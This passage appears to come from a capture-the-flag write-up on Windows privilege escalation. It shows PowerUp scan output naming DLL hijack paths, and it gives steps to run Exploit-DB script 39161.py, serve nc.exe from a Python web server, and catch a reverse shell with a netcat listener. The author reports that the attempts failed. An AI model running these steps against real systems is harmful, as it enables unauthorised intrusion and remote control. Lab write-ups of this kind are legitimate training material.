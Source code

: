 ```bash


[*] Checking service permissions...
[*] Checking %PATH% for potentially hijackable .dll locations...

HijackablePath : C:\Windows\system32\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\system32\\wlbsctrl.dll' -Command '...'

HijackablePath : C:\Windows\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\\wlbsctrl.dll' -Command '...'

HijackablePath : C:\Windows\System32\WindowsPowerShell\v1.0\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\System32\WindowsPowerShell\v1.0\\wlbsctrl.dll' -Command '...'


[*] Checking for AlwaysInstallElevated registry key...
[*] Checking for Autologon credentials in registry...
[*] Checking for vulnerable registry autoruns and configs...
[*] Checking for vulnerable schtask files/configs...
[*] Checking for unattended install files...
[*] Checking for encrypted web.config strings...
[*] Checking for encrypted application pool and virtual directory passwords...

** END OF SCAN **
```

It seems that no matter how I try to run this script, I can't get it to show the `CanRestart` data. Then when I try to simply stop the service, replace the binary with my malicious script, and restart the service, it doesn't work. I am sure it is probably something to do with how PowerShell works. I must not be stopping the service so I can't access the file. More research into this is required. 


### Task 4 - Exploit without Metasploit

* Use script 39161.py from Exploit-db.com. Edit script:
	* Set local IP
	* Set local port
* Use a web server to transfer Netcat binary, *nc.exe*, to target machine. 
	* `sudo python3 -m http.server 80 ` // Note that you must start web seerver with `sudo` or you get an error because you need a server running on port 80. 
* Start a listener for the callback.
	* `nc -lvnp 4444`
* Fire the exploit script. 
	* `python3 39161.py <IP> <port>` The IP and port must match what you enter in the 39161.py script above. 
* At this point the target server should have called-back to your attacking machine. 

**Frustration** 
I've tried multiple times to make this work and just like with the PowerUp.ps1 script and exploiting the ASCService.exe overwrite, I couldn't get this to work. It has been very frustrating!
